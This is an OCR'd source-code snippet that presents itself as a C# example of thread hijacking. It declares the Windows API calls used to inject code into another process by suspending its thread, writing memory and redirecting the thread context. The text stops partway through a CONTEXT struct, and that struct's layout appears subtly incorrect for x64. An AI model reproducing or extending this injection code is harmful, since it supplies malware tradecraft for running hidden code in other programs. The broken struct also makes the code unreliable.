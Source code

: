 #### Code Example in C#
Here’s a C# example of thread hijacking:

```csharp
using System;
using System.Diagnostics;
using System.Runtime.InteropServices;

class Program
{
    [DllImport("kernel32.dll")]
    static extern IntPtr OpenProcess(uint dwDesiredAccess, bool bInheritHandle, int dwProcessId);

    [DllImport("kernel32.dll")]
    static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

    [DllImport("kernel32.dll", SetLastError = true)]
    static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, uint nSize, out IntPtr lpNumberOfBytesWritten);

    [DllImport("kernel32.dll")]
    static extern bool ReadProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, [Out] byte[] lpBuffer, uint dwSize, out IntPtr lpNumberOfBytesRead);

    [DllImport("kernel32.dll")]
    static extern IntPtr OpenThread(uint dwDesiredAccess, bool bInheritHandle, uint dwThreadId);

    [DllImport("kernel32.dll")]
    static extern uint SuspendThread(IntPtr hThread);

    [DllImport("kernel32.dll")]
    static extern int ResumeThread(IntPtr hThread);

    [DllImport("kernel32.dll")]
    static extern bool GetThreadContext(IntPtr hThread, ref CONTEXT lpContext);

    [DllImport("kernel32.dll")]
    static extern bool SetThreadContext(IntPtr hThread, ref CONTEXT lpContext);

    [StructLayout(LayoutKind.Sequential)]
    public struct CONTEXT
    {
        public uint ContextFlags; // set this to CONTEXT_FULL (0x10007) for x64
        public ulong Dr0;
        public ulong Dr1;
        public ulong Dr2;
        public ulong Dr3;
        public ulong Dr6;
        public ulong Dr7;
        public M128A Xmm0;
        public M128A Xmm1;
        public M128A Xmm2;
        public M128A Xmm3;
        public M128A Xmm4;
        public M128A Xmm5;
        public M128A Xmm6;
        public M128A Xmm7;
        public M128A Xmm8;
        public M128A Xmm9;
        public M128A Xmm10;
        public M128A Xmm11;
        public M128A Xmm12;
        public M128A Xmm13;
```